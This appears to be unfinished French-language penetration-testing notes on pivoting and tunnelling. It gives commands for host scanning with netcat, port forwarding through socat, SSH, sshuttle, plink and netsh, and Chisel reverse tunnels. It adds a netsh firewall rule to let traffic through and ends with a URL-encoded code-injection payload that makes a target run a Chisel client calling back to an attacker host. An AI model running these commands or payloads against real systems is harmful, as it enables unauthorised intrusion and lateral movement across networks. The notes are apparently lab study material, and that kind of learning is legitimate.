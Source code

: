 
### Enumération

```
ip addr
```

```
ip route
```

```
ss -ntplu 
```

| Arguments | Signification |
| ---- | ---- |
| -t | TCP |
| -u | UDP |
| -p | PID |
| -n | Numérique |

```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done

# Boucle bash pour recherche d'hôtes avec un port 445 ouvert sur sous-réseau /24
```


### Redirection de port avec Socat

```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```

| Arguments | Signification |
| ---- | ---- |
| -ddd | Verbose |
| fork | Maintien la connection |
### Redirection de port avec SSH

| Arguments | Signification         |
| --------- | --------------------- |
| -N        | Ne lance pas de shell |
| -L        | Redirection local     |
| -D        | Redirection dynamique |
| -R        | Redirection remote    |

#### Local

```
ssh -N -L 0.0.0.0:4455:<machine_cible_ip>:445 user@<machine_pivot_ip>
```

#### Dynamique 

```
ssh -N -D 0.0.0.0:9999 user@<machine_pivot_ip>
```

###### Pour proxychain :

```
sudo nano /etc/proxychains4.conf

# Ajouter :
# socks5 <machine_pivot_ip> <port>
```

```
proxychains smbclient -L //<machine_cible_ip>/ -U <utilisateur> --password=<motdepasse>
```

#### Remote

Sur kali :
```
sudo systemctl start ssh
```

Sur machine pivot :
```
ssh -N -R 127.0.0.1:2345:<machine_cible_ip>:5432 kali@<kali_ip>
```

```
psql -h 127.0.0.1 -p 2345
```
#### Remote dynamique

```
ssh -N -R 9998 kali@<kali_ip>
```

Remarque :
- Passer par proxychains pour les commandes
- Pour Windows : télécharger ssh.exe sur machine pivot

### Redirection de port avec Shuttle

Prérequis :
- Client ssh : privilège root
- Serveur ssh : python3

Sur machine pivot :
```
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

Sur kali :
```
sshuttle -r user@<machine_pivot_ip>:2222 10.4.50.0/24 172.16.50.0/24
# Nous voulons tunneliser deux sous-réseaux ici
```

### Redirection de port avec PLINK

```
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <kali_ip>
```

### Redirection de port avec Netsh

Prérequis :
- Privilège admin

Sur machine pivot :
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=<machine_pivot_ip> connectport=22 connectaddress=<machine_cible_ip>
```

Vérifier la connexion :
```
netstat -anp TCP | find "2222"
netsh interface portproxy show all
```

Bypass firewall :
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<machine_pivot_ip> localport=2222 action=allow
```

Supprimer:
```
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=<machine_pivot_ip>
```

### Redirection de port HTTP avec Chisel

Prérequis :
- sur ma chine cible
- sur machine attaquante

Sur machine attaquante :
```
chisel server --port 8080 --reverse
```

Pour capturer le trafic :
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Exécuter sur machine cible :
```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

Exemple payload :
```
curl http://192.168.238.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

NON FINI